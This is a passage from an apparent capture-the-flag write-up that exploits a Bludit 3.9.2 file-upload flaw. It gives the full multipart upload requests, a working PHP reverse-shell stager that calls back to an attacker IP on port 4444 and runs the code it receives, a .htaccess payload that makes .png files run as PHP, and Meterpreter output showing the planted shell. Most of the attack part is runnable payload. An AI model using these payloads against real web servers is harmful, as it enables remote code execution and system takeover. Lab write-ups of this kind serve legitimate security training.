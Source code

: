 ```
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="images[]"; filename="urRPSNKVaR.png"
Content-Type: image/png

<?php @unlink(__FILE__);/*<?php /**/ error_reporting(0); $ip = '10.10.14.17'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die(); ?>
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="tokenCSRF"

92f6db87efe26f25cb7e6a8a8d2743d6f41995d5
-----------------------------743239273736140726080546615286--
```
Then the exploit, using the same form, tries to upload a .htaccess file containing a directive that will allow the webserver to execute .png files as scripts:  
```
-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/png

RewriteEngine off
AddType application/x-httpd-php .png

-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="uuid"

3740583359713fcc4993def59a997742
-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="tokenCSRF"

bef07d953027dd57fd1c7a349a1fe25036d399d9
-----------------------------162541449209088976078955525395--
```
We get an image upload error for file not supported. This is expected, since by an (unsecure) design of the application all the files are uploaded to ```../../tmp``` folder before executing checks on target file.  
In fact, also without using .png extension, if we upload the shell in a .php format, it will be uploaded to ```../../tmp```
```
meterpreter > dir
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  5493  fil   2022-04-19 15:03:53 +0200  sh.php
040755/rwxr-xr-x  4096  dir   2022-04-19 14:42:38 +0200  thumbnails
```
now we can just call ```http://10.10.10.191/bl-content/tmp/sh.php``` or ```http://10.10.10.191/bl-content/tmp/sh.png``` using also the .htaccess file and get a shell.  
```
```